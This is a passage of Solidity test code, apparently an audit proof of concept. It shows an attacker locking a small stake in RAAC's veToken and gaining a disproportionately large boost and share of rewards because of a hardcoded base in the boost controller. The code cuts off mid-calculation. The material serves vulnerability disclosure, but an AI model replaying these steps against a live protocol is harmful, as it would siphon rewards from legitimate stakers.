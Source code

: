 ```solidity 
        // Mint RAAC tokens to users
        raacToken.mint(attacker, 100e18);    // Attacker gets 100 tokens
        raacToken.mint(legitUser, 10000e18); // Legitimate user gets 10000 tokens
        
        // Whitelist addresses
        raacToken.manageWhitelist(attacker, true);
        raacToken.manageWhitelist(legitUser, true);
        raacToken.manageWhitelist(address(veToken), true);
    }
​
    function testHardcodedBaseVulnerability() public {
        // Users lock tokens
        vm.startPrank(legitUser);
        raacToken.approve(address(veToken), type(uint256).max);
        veToken.lock(10000e18, 365 days); // Lock 10000 tokens
        vm.stopPrank();
​
        vm.startPrank(attacker);
        raacToken.approve(address(veToken), type(uint256).max);
        veToken.lock(100e18, 365 days);  // Lock 100 tokens
        vm.stopPrank();
​
        // Update boosts
        vm.prank(legitUser);
        boostController.updateUserBoost(legitUser, pool);
        (uint256 legitUserBoost, , , ) = boostController.getUserBoost(legitUser, pool);
​
        vm.prank(attacker);
        boostController.updateUserBoost(attacker, pool);
        (uint256 attackerBoost, , , ) = boostController.getUserBoost(attacker, pool);
​
        // Calculate boost per token
        uint256 attackerBoostPerToken = (attackerBoost * 1e18) / veToken.balanceOf(attacker);
        uint256 legitUserBoostPerToken = (legitUserBoost * 1e18) / veToken.balanceOf(legitUser);
​
        // Verify attacker gets more boost per token
        assertGt(
            attackerBoostPerToken,
            legitUserBoostPerToken,
            "Attacker gets more boost per token"
        );
​
        // Verify boost ratio vs token ratio
        uint256 boostRatio = (attackerBoost * 100) / legitUserBoost;      // ~40%
        uint256 tokenRatio = (veToken.balanceOf(attacker) * 100) / veToken.balanceOf(legitUser); // ~1%
​
        assertGt(
            boostRatio,
            tokenRatio * 20,
            "Attacker gets disproportionate boost relative to holdings"
        );
​
        // Calculate rewards
        uint256 dailyRewards = 1000e18;
        uint256 totalBoost = attackerBoost + legitUserBoost;
        
        uint256 attackerRewards = (attackerBoost * dailyRewards) / totalBoost;
        uint256 legitUserRewards = (legitUserBoost * dailyRewards) / totalBoost;
​
        // Calculate reward efficiency (rewards per token held)
        uint256 attackerRewardEfficiency = (attackerRewards * 1e18) / veToken.balanceOf(attacker);
```
